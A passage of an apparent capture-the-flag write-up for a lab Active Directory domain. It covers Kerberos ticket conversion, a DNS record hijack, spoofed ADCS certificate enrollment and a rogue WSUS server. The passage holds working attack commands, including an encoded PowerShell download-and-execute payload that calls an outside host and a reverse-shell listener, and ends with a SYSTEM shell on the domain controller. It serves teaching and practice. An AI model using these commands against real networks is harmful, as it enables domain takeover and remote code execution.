      doIFyDCCBcSgAwIB...[snip]...LkhUQqkgMB6gAwIBAqEXMBUbBmtyYnRndBsLTE9HR0lORy5IVEI=
```

### 2. Converting to Linux Format (.ccache)

Windows uses the `.kirbi` format, while Linux tools like Impacket and Certipy expect `.ccache`. We save the Base64 blob to a file and convert it using `ticketConverter.py`.

```bash
# Decode the ticket
➜ echo 'oIFyDCCBcSgAwIB...[snip]...LkhUQqkgMB6gAwIBAqEXMBUbBmtyYnRndBsLTE9HR0lORy5IVEI=' | base64 -d > jaylee.clifton.kirbi

# Convert the ticket
➜ ticketConverter.py jaylee.clifton.kirbi jaylee.clifton.ccache
Impacket v0.14.0.dev0+20260420.123356.9afc09b9 - Copyright Fortra, LLC and its affiliated companies

[*] converting kirbi to ccache...
[+] done
```

### 3. Verifying the Identity

We verify that the ticket is valid and correctly reflects the `jaylee.clifton` principal using `klist`. Note the timestamp synchronization (April 2026) required for the target environment.

```bash
➜ klist jaylee.clifton.ccache
Ticket cache: FILE:jaylee.clifton.ccache
Default principal: jaylee.clifton@LOGGING.HTB

Valid starting       Expires              Service principal
04/23/2026 08:45:05  04/23/2026 14:59:15  krbtgt/LOGGING.HTB@LOGGING.HTB
```

### 4. Remote DNS Hijacking via Kerberos

With the identity active on our attacker machine, we use **bloodyAD** to perform the DNS hijacking remotely. We wrap the command in `fake_time` to sync with the DC's 2026 clock and add an A-record for `wsus` pointing to our IP.

```bash
➜ fake_time dc01.logging.htb \
env KRB5CCNAME=jaylee.clifton.ccache \
bloodyAD -H dc01.logging.htb -d logging.htb \
    -u 'jaylee.clifton' -k \
    add dnsRecord 'wsus' "10.10.16.25"
[+] wsus has been successfully added

# Verify from target shell:
PS C:\temp> Resolve-DnsName wsus.logging.htb
wsus.logging.htb  A  180  Answer  10.10.16.25
```

### 5. Remote Enrollment via Certipy

Next, we use **Certipy** to request the spoofed certificate. Since we are using our exported Kerberos ticket, we don't need a password. We specify the `UpdateSrv` template and our spoofed DNS name.

```bash
➜ fake_time dc01.logging.htb \
env KRB5CCNAME=jaylee.clifton.ccache \
certipy req \
  -u 'jaylee.clifton@logging.htb' -k \
  -target dc01.logging.htb -dc-host dc01.logging.htb -dc-ip "$target_ip" \
  -ca 'logging-DC01-CA' -template 'UpdateSrv' \
  -dns 'wsus.logging.htb'
```

### 6. Final Certificate Preparation

To use the generated PFX with our rogue WSUS server, we extract the certificate and private key and concatenate them into a single PEM file.

```bash
➜ certipy cert -pfx wsus.pfx -nokey -out wsus.crt
Certipy v5.0.4 - by Oliver Lyak (ly4k)
[*] Writing certificate to 'wsus.crt'

➜ certipy cert -pfx wsus.pfx -nocert -out wsus.key
Certipy v5.0.4 - by Oliver Lyak (ly4k)
[*] Writing private key to 'wsus.key'

➜ cat wsus.crt wsus.key > wsus.pem
```

### 7. Executing the Attack & Final Compromise

With the DNS record redirected and our trusted certificate in hand, we map the spoofed domain to our local IP in `/etc/hosts` and prepare our listener. Finally, we launch **wsuks** to serve the malicious update. Because we are using a certificate signed by the Domain CA for the `wsus.logging.htb` hostname, the Domain Controller will trust the connection implicitly.

```bash
# Mapping the host locally
➜ echo "10.10.16.25 wsus.logging.htb" | sudo tee -a /etc/hosts
10.10.16.25 wsus.logging.htb

# Starting the listener
➜ rlwrap -cAr ncat -lnvp 9002

# Running the rogue WSUS server
➜ sudo wsuks --serve-only \
    --WSUS-Server wsus.logging.htb \
    --tls-cert wsus.pem \
    -I tun0 \
    -c '/accepteula /s powershell.exe -ep bypass -nop -w hidden -e "SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADIAMQA0AC8AcwBoAGUAbABsAC4AcABzADEAIgApAA=="'

# Shell as Administrator
PS C:\Windows\system32> whoami; hostname
nt authority\system
DC01
```
